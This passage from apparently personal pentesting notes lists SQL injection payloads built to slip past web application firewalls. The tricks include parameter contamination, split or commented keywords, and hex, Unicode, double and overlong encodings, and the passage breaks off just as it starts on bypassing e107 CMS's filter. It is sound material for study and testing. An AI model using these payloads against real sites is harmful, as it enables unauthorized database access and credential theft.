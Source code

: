 Some WAFs might check parameters separately, failing to detect the full SQL injection.
### HTTP Parameter Contamination (HPC)
```sql
?id=1;SELECT/*&id=*/password/*&id=*/FROM users
```
Different web servers process duplicate parameters differently.
### Breaking SQL Keywords with Operators
```sql
'se'+'lec'+'t' * from users -- (Bypassing SELECT detection)
'Un'+'Io'+'N Se'+'Le'+'Ct' 1,2,3 -- (Bypassing UNION SELECT detection)
[Se][Le][Ct] * from users -- (SQL Server)
id=1+(UnI)(oN)+(SeL)(EcT) 1,2,3 --
%S%E%L%E%C%T * FROM users --
SELECT 0x70617373776F7264 FROM users; -- (password in hex)
sElEcT * fRoM users;
UNI/**/ON SEL/**/ECT 1,2,3;
SELECT/**/password/**/FROM/**/users;

```

![[Pasted image 20250404071129.png]]
### Unicode Representation of Special Characters
Certain **critical SQL characters** (such as `'`, `"`, `--`, and `;`) can be **encoded in Unicode** to avoid detection.
- Some WAFs detect `'` (ASCII) **but not its Unicode equivalent**.
- The database normalizes Unicode internally, interpreting `%D6%5C'` as `'`.
- `UNION` can be obfuscated as `%55%6e%69%6f%6e` (which is the hex representation of "UNION").
- The bypass technique here is to obfuscate the `UNION` keyword using `%6f` (the hex representation of `o`), allowing the attacker to bypass the filter:
    - **Bypass Example**: `vuln.php/trackback?inject=UNI%6fN SELECT`

### Other Unicode Encoding Variations
**Using Full-Width Unicode Characters** Some Unicode characters **look identical** to normal ASCII characters but have **different byte representations**.

| `"` | `＂` |
| --- | --- |
| `'` | `＇` |
| `–` | `－` |
| `/` | `／` |
| `\` | `＼` |
### Double Encoding for SQL Injection
Some WAFs block **single encoding** but fail to detect **double encoding**.
```sql
?id=1%25%32%37%20AND%201=1--
```
`%25%32%37` is **double-encoded `%27`**, which is `'`.
### Using UTF-8 Overlong Encoding
Some databases **normalize UTF-8 overlong encoding**, while some WAFs **don’t**.
```sql
?id=1%C0%AF' OR 1=1 --
```
`%C0%AF` is an **overlong encoding for `/`**, bypassing WAFs that block `/`.
### e107 CMS
**What it does:**  
It defines an array of suspicious strings (like `'`, `;`, `/UNION/`, `AS`) and blocks the request **if any of them appear in the URL query string**.
✅ **How to Bypass:**  